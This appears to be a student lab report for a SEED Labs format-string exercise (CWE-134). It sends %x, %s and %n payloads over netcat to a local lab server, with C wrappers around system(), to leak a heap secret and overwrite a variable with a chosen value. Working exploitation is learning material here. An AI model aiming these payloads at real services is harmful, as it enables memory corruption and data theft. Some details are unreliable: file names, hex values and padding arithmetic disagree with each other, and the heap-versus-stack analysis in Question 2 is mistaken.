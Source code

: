 # Question 1

## Setup
To start, we disabled address randomization, as the program's address layout and order is crucial for this attack.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

The server's program.c was compiled with the -z execstack flag to allow code execution within the stack.

We then opened two terminals, one with the server using Docker from Seed Labs and another as a client to communicate with the servers. This setup allowed us to observe messages exchanged between both sides. We then send the string asked to the server:

```bash
$ echo 'hello' | nc 10.9.0.5 9090
```

The server returned necessary information for the following tasks:
•	Input buffer address
•	Secret message address
•	Addresses of a target variable
•	Frame pointer for the myprintf function


## Task 1
To crash the server, we sent the following input:

```bash
$ echo '%n' | nc 10.9.0.5 9090
```

The format string attempts to write with %n to a memory address outside the allowed address space of the process caused a crash, resulting in a segmentation fault. The absence of the "Returned properly" message confirmed the server had crashed.


## Task 2

### Task 2.A	
We used "DJLD", represented in hexadecimal as "444A4C44", to print the first 4 bytes of the input from the format string. 
Our initial approach was to input "DJLD" concatenated with multiple "%08x" format specifiers.

```bash
echo "DJLD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
 ```

The final "444C4A44" is the address of our input "DJLD". Observing that each address has 8 characters (32-bit addresses), we determined there are 63 stack addresses between the format string and the buffer. Thus, a string with exactly 64 "%x" is needed to print the initial 4 bytes of the input.

### Task 2.B
To print a string from the heap at address 0x080b4008, we encoded the address as "\x08\x0b\x40\x08". With 63 "%08x" and a final "%s", the format string reads from this address and returns the hidden value.

We created a func.c file and compiled it:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

```bash
gcc -o func fun.c 
```

And then run it:

```bash
./func
```
 
The server confirmed the message at this address is  "A secret message."


## Task 3

### Task 3.A

Here, we needed to modify the value of the target variable. Initially, it held 0x11223344, and its address was 0x080e5068.
Using %n, like we used in task 1, we could write the count of characters printed so far to the specified address. This approach involved a command similar to Task 2.B, we just wrote to the address instead of reading from it.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```
The target value changed.


### Task 3.B

This time, we needed to set the target variable to a specific value: 0x5000 (20480 in decimal). Knowing %n would write the character count, we crafted an input with 20408 characters, and used %.NX, with N = 19980 (computed by subtracting 4 and the 63 * 8 from 20408), to achieve the required count.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}

```
The target variable was now 0x00005000.


# Question 2:

CWE-134 format string vulnerabilities occur when user-controlled data is unsafely passed to formatting functions, allowing attackers to manipulate memory via format specifiers.
When the format string is on the stack:
•	Reading stack data is easier using %x or %s, as stack addresses and data are accessible.
•	Writing to the stack with %n allows attackers to overwrite critical stack values, like local variables or return addresses.
If the format string is on the heap:
•	Reading and writing to the stack becomes difficult, as %x and %n would target the heap instead.
•	Attacks relying on stack manipulation, like reading stack addresses or overwriting variables, would fail or be less effective.
Allocating the format string on the stack makes attacks easier, while placing it on the heap complicates exploitation, though it doesn't eliminate the risk.

Task 2.A - Reading Stack Addresses: The %x attack, which reveals stack addresses, would fail because it depends on accessing stack memory. With the format string on the heap, only heap addresses would be revealed.
Task 2.B (Reading String from Heap): While this attack relies on reading from a specific heap address, the format string's location in the heap would make it harder to control and predict the memory layout, making the attack less reliable.
Task 3.A - Writing to Stack Variables with %n: Modifying stack variables using %n would also not work since %n would write to heap memory, not affecting the stack variables.
Task 3.B - Setting a Specific Value on the Stack with %n: Writing a specific value to the stack with %n would fail because %n would target the heap instead of the intended stack address.


